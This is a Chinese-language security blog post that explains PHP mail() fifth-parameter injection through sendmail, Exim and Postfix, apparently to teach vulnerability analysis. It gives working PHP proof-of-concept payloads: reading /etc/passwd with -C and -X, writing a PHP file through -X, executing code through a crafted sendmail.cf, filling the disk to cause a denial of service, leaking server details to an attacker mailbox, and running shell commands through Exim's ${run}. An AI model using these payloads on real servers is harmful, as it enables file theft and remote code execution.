

PHP mail()函数漏洞总结
本文最后更新于：3 年前
漏洞成因
国外安全研究人@dawid_golunski曝光了多个使用PHP mail函数引发命令执行的漏洞。众多使用php内置mail函数的第三方邮件库，如phpmailer，SwiftMailer 纷纷中招。这些漏洞的成因和之前曝光的Roundcube命令执行漏洞如出一辙，都是由于其在调用php内置mail函数时，没有恰当过滤第5个参数，可以被注入恶意参数，引发命令执行漏洞。
mail()函数介绍
bool mail ( string $to 电子邮件收件人,或收件人列表
, string $subject 电子邮件的主题
, string $message 邮件内容
[, string $additional_headers
[, string $additional_parameters ]] ) 许多web应用使用它设置发送者的地址和返回路径这里最后一个参数（ $ additional_parameters），允许注入额外的参数给系统安装的/usr/bin/sendmail程序，该程序使用mail()发送消息。
在Linux系统上，mail函数在底层实现中，默认调用Linux的sendmail程序发送邮件。
例：使用mail()函数发送邮件
<?php
$to="john@localhost";
$subject="simple email ";
$headers = "from: mike@localhost";
$body="body of the message";
$sender="admin@localhost";
mail($to,$subject,$body,$headers,"-f $sender");
?>php将调用execve()执行sendmail程序
execve("/bin/sh","sh","-c","/usr/sbin/sendmail -t -i -f admin@localhost"],[/* 24 environment var */])-t和-i参数由PHP自动添加。参数-t使sendmail从标准输入中提取头，-i阻止sendmail将’.’作为输入的结尾。-f来自于mail()函数调用的第5个参数。
如果一个攻击者能够注入数据到mail()函数的第5个参数中，就会导致命令注入
/usr/sbin/sendmail -t -i -f attacker@email exta_data虽然PHP会使用escapeshellcmd函数来过滤参数的内容，对特殊字符的转义来防止恶意命令执行（&#;`|*?~<>^()[]{}$, \x0A and \xFF.’ “这些字符都不能使用），但是我们可以添加命令执行的其他参数。
-X logfile是记录log文件的，就是可以写文件；
-C file是临时加载一个配置文件，就是可以读文件；
-O option=value 是临时设置一个邮件存储的临时目录的配置。
使用-C参数文件任意读
/usr/sbin/sendmail -t -i -f attacker@email -C/etc/passwd -X /tmp/output.txt保存/etc/passwd 的内容到/tmp/output.txt
任意文件写/远程代码执行
Sendmail MTA版本的/usr/sbin/sendmail的-X参数也能和下面参数组合使用
<?php
$to="john@localhost";
$subject="simple email ";
$headers = "from: mike@localhost";
$body="<?php phpinfo();?>";
$sender="admin@localhost -OQueueDirectory=/tmp/ -X/tmp/poc.php";
mail($to,$subject,$body,$headers,"-f $sender");
?>这里的意思就是说我们将发送邮件的信息如body临时文件保存在tmp下面，最后将日志保存在/tmp/poc.php,写到poc.php 文件的内容就是我那个发送邮件的内容了
注:-OQueueDirectory=/tmp/ 可以简写成-oQ/tmp/ -X后也可用相对路径
Sendmail MTA：通过sendmail.cf远程代码执行
如果当前目录你没权限写怎么办？
或者写入的文件没办法执行怎么办？
在一个安全部署的web应用中，在上传目录(upload目录)的PHP脚本执行可能是被禁止的，且应用只允许上传静态文件（如纯文本、图片等）。发现的新的攻击向量能打破这些限制。因为sendmail接口允许通过-C参数加载一个自定义的Sendmail MTA配置文件，攻击者通过web应用的上传功能上传一个恶意的配置文件，使用它强制Sendmail执行恶意的代码这能通过复制一份/etc/mail/sendmail.cf配置文件并使用下面的Sendmail配置替换文件末尾的默认的Mlocal邮件处理函数来实现添加一段代码：
Mlocal, P=/usr/bin/php, F=lsDFMAw5:/|@qPn9S, S=EnvFromL/HdrFromL,
R=EnvToL/HdrToL,
T=DNS/RFC822/X-Unix,
A=php -- $u $h ${client_addr}
$sender payload将使用相对路径从upload/sendmail_cf_exec加载构造的Sendmail MTA配置文件，使用它处理来自mail()函数的邮件Sendmail MTA将启动/usr/bin/php进程并处理$body中的消息。有这么一种场景，一个攻击者能简单的使用/tmp目录来存放恶意的配置文件，然后使用mail()漏洞加载配置并在受害者用户上下文中获得代码执行。
Sendmail MTA：通过文件读和文件追加造成拒绝服务
-C和-X参数能用来对目标执行拒绝服务攻击，方法是使用-C选项读取大的已知文件（如web服务器日志），并追加他们到一个可写目录下的文件中（如/tmp、/var/www/html/upload、/var/lib/php5/sessions等），以消耗磁盘空间。尽管这个例子只限于Sendmail MTA，这个向量也可能影响更多的MTA服务器，只要使用其他MTA支持的类似的参数来做到。
注:
Mail()参数注入被认为几乎不可能利用，因为多年来5th个参数都被认为不太可能暴露到web应用控制面板外面来接收恶意输入，其通常受限于管理员用户，因此很少被远程利用。
找到mail()参数注入漏洞，也不能保证一个成功的利用，因为依赖web服务器安装的MTA版本，直到现在也只有很少使用的Sendmail MTA的2个向量 –X和-C（文件写/读）。
由于复杂性和一些历史漏洞原因，Sendmail MTA很少被使用。现代linux分发中已不再默认包含它，且在基于Redhat的系统（如centos）上被Postfix MTA替换，在基于Debian的系统（如Ubuntu、Debian等）上被Exim MTA替代。
这使得在真实环境中很难找到Sendmail MTA。即使找到了，有时也会因为一些限制导致利用失败（如修改webroot路径、php执行目录等）。
有一种新的利用向量，能在Exim和Postfix上使用
所有的MTA：抢夺邮件/执行侦查
<?php
$to="john@localhost";
$subject="simple email ";
$headers = "from: mike@localhost";
$body="<?php phpinfo();?>";
$sender="nobydy@localhost attacker@anyhost-domain.com";
mail($to,$subject,$body,$headers,"-f $sender");
?>/usr/sbin/sendmail -t -i -f nobydy@localhost attacker@anyhost-domain.com会发送邮件到攻击者的邮箱 attacker@anyhost-domain.com内容包含了:
使用的操作系统版本（Debian）
服务器IP
使用的MTA版本（8.14.4，是Sendmail MTA）
发送消息的脚本名，继而揭露电子邮件发送库/框架的名（如X-PHP-Originating-Script: 0:class.phpmailer.php）
如果应用使用了电子邮件库（如PHPMailer、Zend-mail等）。可能会有版本头。
知道了使用的库，攻击者能调整他们的攻击的系统、MTA和PHP电子邮件库。
例如，PHPMailer库有版本有漏洞：PHPMailer < 5.2.18 Remote Code Execution (CVE-2016-10033)
Exim MTA：远程代码执行
/usr/sbin/sendmail接口由Exim4提供，它有丰富的功能
研究表明-be选项对于攻击者很有用, 更深入的研究发现${run}能扩展到shell命令的返回结果${run{<command> <args>}{<string1>}{<string2>}}//执行命令<command> <args>，成功返回string1，失败返回string2${run{/bin/true}{yes}{no}} 成功执行/bin/true后会扩展为'yes'
这很快就能转化为任意远程代码执行payload，能执行在$body内的任意shell命令:
<?php
$to="john@localhost";
$subject="simple email ";
$headers = "from: mike@localhost";
$body="Exec :${run{/bin/bash -c "usr/bin/id >/tmp/id"}{yes}{no}}";
$sender="nobydy@localhost -be";
mail($to,$subject,$body,$headers,"-f $sender");
?>关于实战和绕过过滤的例子可以看看:[CVE-2016-10033]WordPress < 4.7.1远程代码执行漏洞分析
参考链接:
本博客所有文章除特别声明外，均采用 CC BY-SA 4.0 协议 ，转载请注明出处！